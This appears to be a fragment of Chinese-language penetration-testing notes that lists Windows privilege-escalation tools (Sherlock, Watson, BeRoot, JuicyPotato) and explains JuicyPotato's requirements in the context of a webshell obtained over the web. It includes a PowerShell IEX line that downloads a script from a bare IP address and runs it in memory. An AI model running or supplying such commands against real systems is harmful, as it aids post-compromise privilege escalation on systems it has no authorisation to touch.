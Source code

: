 ### 提权工具脚本

> 收集补丁杀软信息
>
> https://github.com/TryA9ain/CollectAV_KB
>
> BeRoot
>
> https://github.com/AlessandroZ/BeRoot
>
> Watson
>
> https://github.com/rasta-mouse/Watson
>
> Sherlock
>
> https://github.com/rasta-mouse/Sherlock
>
> ```bash
> wget https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1
> powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://47.101.214.85/Sherlock.ps1');Find-AllVulns
> ```
>
> Windows-exploits(Windows提权漏洞利用工具合集)
>
> https://github.com/lyshark/Windows-exploits
>
> JuicyPotato
>
> https://github.com/ohpe/juicy-potato
>
> 下载 JuicyPotato
>
> https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe

> Juicy Potato 的限制条件有：
>
> 需要具有 SeImpersonate 或者 SeAssignPrimaryToken 权限
>
> 开启DCOM
>
> 本地支持RPC或者远程服务器支持RPC并能成功登录
>
> 能够找到可用的COM对象
>
> 
>
> 一般从 Web 拿到的 webshell 都是 IIS 服务器权限，是具有这个模仿权限的。

#### juicypotato
